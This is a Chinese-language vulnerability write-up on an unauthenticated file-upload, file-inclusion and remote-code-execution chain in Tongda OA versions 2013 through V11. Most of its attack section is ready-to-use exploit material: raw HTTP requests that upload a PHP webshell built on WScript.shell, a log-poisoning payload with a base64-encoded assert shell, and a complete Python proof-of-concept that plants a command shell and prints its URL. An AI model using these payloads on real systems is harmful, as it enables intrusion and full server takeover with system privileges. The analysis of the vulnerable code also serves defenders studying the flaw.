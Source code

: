 ## 通达oa 任意文件上传+rce+文件包含

### 一、漏洞简介

有些版本gateway.php路径不同

例如2013：

```
http://url/ispirit/im/upload.php
http://url/ispirit/interface/gateway.php
```

例如2017：

```bash
http://url/ispirit/im/upload.php
http://url/mac/gateway.php

C:\MYOA>dir /s /b gateway.php
C:\MYOA\webroot\mac\gateway.php
```

2015没有文件包含，官方给的补丁2017的没有修复文件包含，所以还有很多种包含日志文件getshell的姿势，不一定要文件上传。

```bash
http://url/api/ddsuite/error.php

POST:message=<?php file_put_contents("2.php",base64_decode("PD9waHAgYXNzZXJ0KCRfUE9TVFsxXSk7Pz4="));?>52011 

然后包含

http://url/mac/gateway.php
POST:json={"url":"..\/..\/logs\/oa\/2003\/dd_error.log"}

在http://192.168.124.138/mac/2.php就是shell密码1
```

### 二、漏洞影响

V11版
2017版
2016版
2015版
2013增强版
2013版

### 三、复现过程

我们根据官网发布的补丁，更新的是ispirit/im/upload.php这个文件，我们跟进这个文件

![](images/15889193316735.png)

当传入P参数时，就可以绕过登录认证，直接获取到session。

![](images/15889193416745.png)

跟进函数流程，逻辑判断是否传入DEST_UID并且不为0，否则直接退出。

![](images/15889193572276.png)


传入一个DEST_UID后，访问，提示无文件上传

![](images/15889193707137.png)

1<=count($_FILES)判断是否有文件上传，后面的逻辑，如果传入文件，直接进入未授权任意文件上传

![](images/15889193813144.png)

可以使用python3的requests库进行文件上传操作，跟进代码，后面判断的是UPLOAD_MODE上传模式的值，如果传入UPLOAD_MODE，当取值为1，2，3时，将回显。

![](images/15889194072681.png)

![](images/15889194127377.png)

进入上传逻辑，调用upload()函数，upload()会对上传的文件进行后缀名检测，这里使用name.php.即可绕过文件后缀名限制，调用upload函数后，会返回一个$ATTACHMENTS数组，这也是后面我们传入上传模式UPLOAD_MODE值时会根据该值的取值返回$ATTACHMENTS[ID]和$ATTACHMENTS[NAME]

![](images/15889194256555.png)

跟进upload()函数，$ATTACHMENTS[ID]由add_attach()函数返回
在add_attach()可以看到传入的文件存储路径为

![](images/15889194343061.png)

$MODULE的值在upload.php文件中指定为im

![](images/15889194423035.png)

存储路径就保存在在upload.php文件中指定的attch/im/$YM/文件夹下面，文件名就是$ATTACH_ID.$ATTACH_FILE
add_attach()函数最终返回的前台的能够回显的$ATTACHMENTS[ID]里面就包含上传的文件名和路径。

![](images/15889194515217.png)

此时，我们就可以构造payloads进行任意文件上传

![](images/15889194600853.png)

但是，开发者指定的保存路径不在wwwroot目录下面，我们只能通过文件包含漏洞进行包含触发漏洞。
文件包含漏洞出现在/ispirit/interface/gateway.php，首先接从客户端接收一个$json的参数，然后将$json转换为数组后再转换成变量，当存在$json数据中存在一个key为url的且不为空的值时，并且url传入的数据中有general/或者ispirit/或者module/时，执行include_once包含该url。

![](images/15889194689475.png)

此处文件包含的另外一个利用，直接触发nginx的错误日志，利用文件包含直接getshell

![](images/15889194791449.png)


请求包


```bash
POST /ispirit/im/upload.php HTTP/1.1
Host: 10.10.20.116:88
Content-Length: 658
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
Cookie: PHPSESSID=123
Connection: close

------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="UPLOAD_MODE"

2
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="P"

123
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="DEST_UID"

1
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
Content-Type: image/jpeg

<?php
$command=$_POST['cmd'];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
------WebKitFormBoundarypyfBh1YB4pV8McGB--
```


```bash
POST /mac/gateway.php HTTP/1.1
Host: 10.10.20.116:88
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.21.0
Content-Length: 71
Content-Type: application/x-www-form-urlencoded

json={"url":"/general/../../attach/im/2003/938379153.jpg"}&cmd=net user
```

**poc** （上传+文件包含+rce）


```python
import os
import requests

# 定义webshell，因为是包含，所以用写入马比较方便
# 这个马自带bypass disable_function 功能
shell = '''<?php
$fp = fopen('readme.php', 'w+');
$a = base64_decode("JTNDJTNGcGhwJTBBJTI0Y29tbWFuZCUzRCUyNF9HRVQlNWIlMjdhJTI3JTVkJTNCJTBBJTI0d3NoJTIwJTNEJTIwbmV3JTIwQ09NJTI4JTI3V1NjcmlwdC5zaGVsbCUyNyUyOSUzQiUwQSUyNGV4ZWMlMjAlM0QlMjAlMjR3c2gtJTNFZXhlYyUyOCUyMmNtZCUyMC9jJTIwJTIyLiUyNGNvbW1hbmQlMjklM0IlMEElMjRzdGRvdXQlMjAlM0QlMjAlMjRleGVjLSUzRVN0ZE91dCUyOCUyOSUzQiUwQSUyNHN0cm91dHB1dCUyMCUzRCUyMCUyNHN0ZG91dC0lM0VSZWFkQWxsJTI4JTI5JTNCJTBBZWNobyUyMCUyNHN0cm91dHB1dCUzQiUwQSUzRiUzRQ==");
fwrite($fp, urldecode($a));
fclose($fp);
?>
'''

# 输入目标
url = input("input the TARGET(example:[url]https://127.0.0.1:1080[/url])>")
# 定义上传目录和包含目录
upload_url = url+"/ispirit/im/upload.php"
include_url = url+"/ispirit/interface/gateway.php"
# 定义shell目录，如果要修改名字，需要把shell里面的一起改了
shell_url = url+"/ispirit/interface/readme.php"
files = {'ATTACHMENT': shell}
# 参见源码，有漏洞的版本只要POST P和DEST_UID参数就会自动生成session
upload_data = {"P": "123", "DEST_UID": "1", "UPLOAD_MODE": "2"}
# 上传
upload_res = requests.post(upload_url, upload_data, files=files)
# 此时会返回上传文件的路径
path = upload_res.text
# 解析返回值获取上传地址
path = path[path.find('@')+1:path.rfind('|')
            ].replace("_", "\/").replace("|", ".")
# 由于上传文件会自动改为jpg，所以要用gateway.php包含
include_data = {"json": "{\"url\":\"/general/../../attach/im/" + path+"\"}"}
# 包含+自动写入shell
include_res = requests.post(include_url, data=include_data)
# 返回结果 a参数可以直接填入系统命令（比如whoami），默认是system权限
print('shell is here:'+shell_url+'?a=command')
```
